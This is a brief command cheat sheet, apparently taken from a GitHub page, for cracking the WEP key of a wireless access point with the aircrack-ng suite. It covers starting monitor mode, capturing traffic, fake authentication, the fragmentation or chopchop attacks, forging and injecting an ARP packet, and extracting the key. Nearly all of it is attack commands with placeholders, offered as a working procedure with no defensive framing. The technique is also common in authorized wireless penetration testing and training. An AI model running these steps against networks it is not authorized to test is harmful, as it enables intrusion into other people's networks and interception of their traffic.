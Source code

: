  **Start Interface**  
```bash
airmon-ng start <interface> <AP channel>  
```
  
**Start Dump Capture**  
```bash
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface> 
```
  
  
**Fake Authenticate to AP**  
```bash
aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>  
```
  
**Launch Fragmentation Attack (5) or KoreK chopchop attack (4)**  
```bash
aireplay-ng -4 -b <AP MAC> -h <Your MAC> <interface>  
```

**OR**  

```bash
aireplay-ng -5 -b <AP MAC> -h <Your MAC> <interface>  
```
  
**Craft ARP request Packet using Packet Forge**  
```bash
packetforge-ng -0 -a <AP MAC> -h <Your MAC> -l <Source IP> -k <Dest IP> -y <xor filename> -w <output filename>  
```
  
**Inject Packet into the network** 
```bash
aireplay-ng -2 -r <packet filename> <interface>  
```
  
**Extract Key from Capture after enough IVs have been generated**  
```bash
aircrack-ng <capture>
```
